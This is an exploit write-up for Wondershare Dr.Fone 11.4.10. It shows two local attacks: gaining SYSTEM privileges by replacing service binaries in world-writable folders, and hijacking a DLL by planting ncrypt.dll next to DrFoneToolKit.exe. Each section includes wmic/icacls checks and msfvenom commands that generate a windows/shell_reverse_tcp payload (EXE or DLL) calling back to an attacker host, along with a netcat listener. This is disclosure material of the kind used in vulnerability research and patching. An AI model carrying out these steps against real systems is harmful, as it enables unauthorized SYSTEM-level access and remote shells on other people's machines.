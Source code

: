 # Wondershare Dr.Fone 11.4.10 - Privilege Escalation and DLL Hijacking
```
Date: 04/25/2022
Exploit Author: AkuCyberSec (https://github.com/AkuCyberSec)
Vendor Homepage: https://drfone.wondershare.com/
Software Link: https://download.wondershare.com/drfone_full3360.exe
Version: 11.4.10
Tested on: Windows 10 64-bit
```

### WARNING: The application folder "Wondershare Dr.Fone" may be different (e.g it will be "drfone" if we download the installer from the italian website)

## Privilege Escalation
The application "Wondershare Dr. Fone" comes with 3 services: 
1. DFWSIDService
2. ElevationService
3. Wondershare InstallAssist

All the folders that contain the binaries for the services have weak permissions.
These weak permissions allow any authenticated user to get SYSTEM privileges.

First, we need to check if services are running using the following command:
```
wmic service get name,displayname,pathname,startmode,startname,state | findstr /I wondershare

Wondershare WSID help                     DFWSIDService               C:\Program Files (x86)\Wondershare\Wondershare Dr.Fone\WsidService.exe                          Auto 	LocalSystem		Running  
Wondershare Driver Install Service help   ElevationService            C:\Program Files (x86)\Wondershare\Wondershare Dr.Fone\Addins\SocialApps\ElevationService.exe	Auto 	LocalSystem     Running  
Wondershare Install Assist Service        Wondershare InstallAssist	C:\ProgramData\Wondershare\Service\InstallAssistService.exe                                     Auto 	LocalSystem     Running  
```

Now we need to check if we have enough privileges to replace the binaries:

```
icacls "C:\Program Files (x86)\Wondershare\Wondershare Dr.Fone"
Everyone:(OI)(CI)(F) <= the first row tells us that Everyone has Full Access (F) on files (OI = Object Inherit) and folders (CI = Container Inherit)
...

icacls "C:\Program Files (x86)\Wondershare\Wondershare Dr.Fone\Addins\SocialApps"
Everyone:(I)(OI)(CI)(F) <= same here
...

icacls "C:\ProgramData\Wondershare\Service"
Everyone:(I)(OI)(CI)(F) <= and here
...
```

1. Create an exe file with the name of the binary we want to replace  (e.g. WsidService.exe if we want to exploit the service "Wondershare WSID help") 
2. Put it in the folder (e.g. C:\Program Files (x86)\Wondershare\Wondershare Dr.Fone\)
3. After replacing the binary, wait the next reboot (unless the service can be restarted manually)

As a proof of concept we can generate a simple reverse shell using msfvenom, and use netcat as the listener:
```
simple payload: msfvenom --payload windows/shell_reverse_tcp LHOST=<YOUR_IP_ADDRESS> LPORT=<YOUR_PORT> -f exe > WsidService.exe
listener: nc -nlvp <YOUR_PORT>
```

## DLL Hijacking
The application DrFoneToolKit.exe is placed in the following folder:
C:\Program Files (x86)\Wondershare\Wondershare Dr.Fone\DrFoneToolKit.exe

Using icacls we can see that the folder has weak permissions:
icacls "C:\Program Files (x86)\Wondershare\Wondershare Dr.Fone"
Everyone:(OI)(CI)(F) <= the first row tells us that Everyone has Full Access (F) on files (OI = Object Inherit) and folders (CI = Container Inherit)

Now we use Process Monitor from Sysinternals to check if it fails to load any DLL from that folder.
1. Run Process Monitor 
2. Click on "Filter", remove any filter and add the followings:
```
[Column; Relation; Value; Action]
Process Name; is; DrFoneToolKit.exe; Include
Result; contains; NAME NOT FOUND; Include
Path; ends with; .dll; Include
Result; contains; SUCCESS; Exclude
Path; begins with; C:\Windows; Exclude
```
3. Be sure the capture is enabled, then run DrFoneToolKit.exe

In the output window we should see all the DLLs that the application fails to load from its folder.
There are several DLLs we can hijack but the easiest one, based on my tests, is ncrypt.dll, since this DLL does NOT need to "work as a proxy".

In order to exploit this vulnerability:
1. Create a DLL (32-bit) named ncrypt.dll and place it in the application folder
2. Run the application

As a proof of concept we can generate a simple reverse shell using msfvenom, and use netcat as the listener:
```
simple payload: msfvenom --payload windows/shell_reverse_tcp LHOST=<YOUR_IP_ADDRESS> LPORT=<YOUR_PORT> -f dll > ncrypt.dll
listener: nc -nlvp <YOUR_PORT>
```

### Please note that creating a DLL from scratch (e.g. in C++) can prevent the application from crashing after the DLL has been loaded.
